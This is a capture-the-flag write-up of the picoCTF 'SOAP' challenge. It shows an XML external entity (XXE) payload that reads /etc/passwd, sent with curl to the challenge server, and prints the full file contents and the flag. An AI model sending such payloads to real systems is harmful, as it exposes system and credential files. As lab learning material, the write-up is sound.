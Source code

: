 # SOAP

XXE + copy and paste for me... But this is something new to me.

I remember I saw the term SOAP when Java and XML was popular...

## Problem

The website takes a XML as parameter. I just show you the bash output as if everything done in `curl`.

Beautified XML

```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
    <ID>1</ID>
</data>
```

```bash
$ curl 'http://saturn.picoctf.net:56917/data' -X POST -H 'Content-Type: application/xml' --data-raw '<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>'

<strong>Special Info::::</strong> University in Kigali, Rwanda offereing MSECE, MSIT and MS EAI
```

These info shows well in the original website as HTML content.

## XXE

Copy and paste the info from this website. <https://brightsec.com/blog/xxe-attack/>

```txt
> How Do XXE Attacks Work?

XML is an extremely popular format used by developers to transfer data between the web browser and the server.

XML requires a parser, which is often where vulnerabilities are introduced. XXE enables the attacker to define entities defined based on the content of a URL or file path. When the server reads the XML attack payload, it parses the external entity, merges it into the final document, and returns it to the user with the sensitive data inside.

XXE attacks can also be leveraged by an attacker to perform an SSRF attack and compromise the server.
```

Don't know that those XML parser can leak so much information... This is scary.

## Solution

This is the sample payload copy from <https://portswigger.net/web-security/xxe>.

From the original normal XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

To the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

So it seems all we need to do is do define `xxe` in our XML as `&xxe;` and define it to point to `file://etc/passwd` with `<!ENTITY>`

Modify our payload so it looks similar to the XML which is used in the website.

Our original XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
    <ID>1</ID>
</data>
```

The payload XML: (3,2 or 1 slash after `file:` seems doesn't matter)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
    <ID>&xxe;</ID>
</data>
```

In one line: `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>`

Do it with curl:

```bash
$ curl 'http://saturn.picoctf.net:56917/data' -X POST -H 'Content-Type: application/xml'  --data-raw '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>'

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XXE_flag}
```

It would normally shows `Invalid ID: 4`, `Invalid ID: 2+1`. But this time it puts all the content of `/etc/passwd` into `ID` and show the value of `ID` in the failure message...
